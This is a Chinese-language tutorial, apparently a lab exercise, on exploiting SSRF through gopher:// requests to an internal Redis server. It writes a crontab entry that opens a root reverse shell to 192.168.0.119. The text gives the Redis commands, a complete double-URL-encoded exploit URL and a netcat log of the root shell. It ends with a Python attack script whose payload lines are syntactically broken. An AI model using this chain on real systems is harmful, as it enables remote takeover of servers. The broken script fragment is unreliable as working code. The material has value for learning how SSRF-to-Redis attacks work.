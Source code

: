 执行结果为下图，说明redis接收到了来自gopher的请求，但没有命令回显，为什么？（需要在命令后面加QUIT，后面会用到）<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624806164809-e5e3edbd-af7d-4928-8738-e54027fc5320.png#align=left&display=inline&height=174&margin=%5Bobject%20Object%5D&name=image.png&originHeight=174&originWidth=2446&size=483602&status=done&style=none&width=2446)<br />虽然无法回显命令执行的结果，但是命令确实是执行了，接下来测试下反弹shell（没有用上面讲的redis的数据包格式，下面的格式也可以），命令如下：
```
set mars "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```
上述命令的含义总结为，利用Redis的备份功能，将crontab的定时任务备份到/etc/crontab中，起到执行命令的效果，因为Linux会监测/etc/crontab的内容，当我们将反弹shell的命令加入进去后，便会被执行，具体解释如下：
```
# 添加名为mars的key，值为后面反弹shell的语句,5个星号代表每分钟执行一次，开始和技术的\n必须要有一个，也就是前后各有一个，当然，多个可以，主要是为了避免crontab的语法错误。crontab知识可以参考：【https://www.runoob.com/w3cnote/linux-crontab-tasks.html】
set mars "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n\n\n\n"
# 设置备份的路径为/etc
config set dir /etc/
# 设置备份文件名为crontab
config set dbfilename crontab
# 开始备份
save
```
进行二次URL编码，结果如下：
```http
http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher%3a%2f%2f192.168.0.119%3a6379%2f_%25%30%64%25%30%61%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%32%30%25%36%64%25%36%31%25%37%32%25%37%33%25%32%30%25%32%32%25%35%63%25%36%65%25%35%63%25%36%65%25%35%63%25%36%65%25%35%63%25%36%65%25%32%61%25%32%30%25%32%61%25%32%30%25%32%61%25%32%30%25%32%61%25%32%30%25%32%61%25%32%30%25%37%32%25%36%66%25%36%66%25%37%34%25%32%30%25%36%32%25%36%31%25%37%33%25%36%38%25%32%30%25%32%64%25%36%39%25%32%30%25%33%65%25%32%36%25%32%30%25%32%66%25%36%34%25%36%35%25%37%36%25%32%66%25%37%34%25%36%33%25%37%30%25%32%66%25%33%31%25%33%39%25%33%32%25%32%65%25%33%31%25%33%36%25%33%38%25%32%65%25%33%30%25%32%65%25%33%31%25%33%31%25%33%39%25%32%66%25%33%39%25%33%39%25%33%39%25%33%39%25%32%30%25%33%30%25%33%65%25%32%36%25%33%31%25%35%63%25%36%65%25%35%63%25%36%65%25%35%63%25%36%65%25%35%63%25%36%65%25%32%32%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%32%30%25%37%33%25%36%35%25%37%34%25%32%30%25%36%34%25%36%39%25%37%32%25%32%30%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%32%30%25%37%33%25%36%35%25%37%34%25%32%30%25%36%34%25%36%32%25%36%36%25%36%39%25%36%63%25%36%35%25%36%65%25%36%31%25%36%64%25%36%35%25%32%30%25%36%33%25%37%32%25%36%66%25%36%65%25%37%34%25%36%31%25%36%32%25%30%64%25%30%61%25%37%33%25%36%31%25%37%36%25%36%35%25%30%64%25%30%61
```
执行结果如下，1分钟后发现成功反弹shell。
```bash
margine:~ margin$ nc -l 9999
ls
bash: no job control in this shell
[root@7471cd804b12 ~]# ls
anaconda-ks.cfg
install.log
install.log.syslog
```
简易脚本如下：
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2,urllib

url = "http://192.168.0.109/ssrf/base/curl_exec.php?url="
gopher = "gopher://192.168.0.119:6379/_"
# 攻击脚本，\n的\一定要转义
"set mars "\\n* * * * * root bash -i >& /dev/tcp/192.168.0.119/6670  0>&1\\n"
config set dir /etc/
config set dbfilename crontab
save
```